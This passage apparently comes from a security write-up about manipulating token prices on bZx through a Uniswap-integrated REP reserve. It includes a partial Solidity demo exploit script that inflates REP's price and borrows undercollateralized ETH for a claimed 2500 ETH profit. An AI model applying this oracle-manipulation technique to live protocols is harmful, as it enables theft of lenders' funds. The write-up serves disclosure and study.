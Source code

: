 The bZx team blocked this attack in two ways:

  1. If either the loan token or collateral token wasn't ETH, then bZx would manually determine the exchange rate between the token and ETH, unless
  2. The loan token or collateral token was a USD-based stablecoin, in which case bZx would use the rate from Maker's oracle

### Uniswap

An astute reader may notice at this point that bZx's solution still does not
handle incorrect FMVs for arbitrary tokens. This means that if we can find
another permissioned reserve which can be manipulated, we can take out yet
another undercollateralized loan.

After sifting through all the registered permissioned reserves for the
whitelisted tokens, we notice that the REP token has a reserve which
integrates with Uniswap. We already know from our attacks on DDEX that
Uniswap's prices can be manipulated, so we can re-purpose our previous attack
and substitute Eth2Dai and DAI for Uniswap and REP.

#### Demo

The following script will turn a profit of approximately 2500ETH by:

  1. Performing a large order buy on Uniswap's REP exchange, increasing the price from 0.05ETH/REP to 6.05ETH/REP
  2. Borrowing ETH from bZx using REP as collateral
  3. Cancelling all orders and convert all assets to ETH

    
    
    contract BZxUniswapExploit is Script, Constants, TokenHelper, BZxHelpers {
        BZxLoanTokenV3Like private constant BZX_ETH = BZxLoanTokenV3Like(0x77f973FCaF871459aa58cd81881Ce453759281bC);
        
        uint constant private INITIAL_BALANCE = 5000 ether;
        
        function setup() public {
            name("bzx-uniswap-exploit");
            blockNumber(8547500);
        }
        
        function run() public {
            begin("exploit")
                .withBalance(INITIAL_BALANCE)
                .first(this.checkRates)
                .then(this.makeOrder)
                .then(this.checkRates)
                .then(this.borrow)
                .then(this.cleanup)
                .finally(this.checkProfits);
        }
        
        uint constant rateCheckAmount = 10 ether;
        
        function checkRates() external {
            (uint rate, uint slippage) = KYBER_NETWORK.getExpectedRate(REP, KYBER_ETH, rateCheckAmount);
            printf("checking rates tokens=%.18u rate=%.18u slippage=%.18u\n", abi.encode(rateCheckAmount, rate, slippage));
        }
        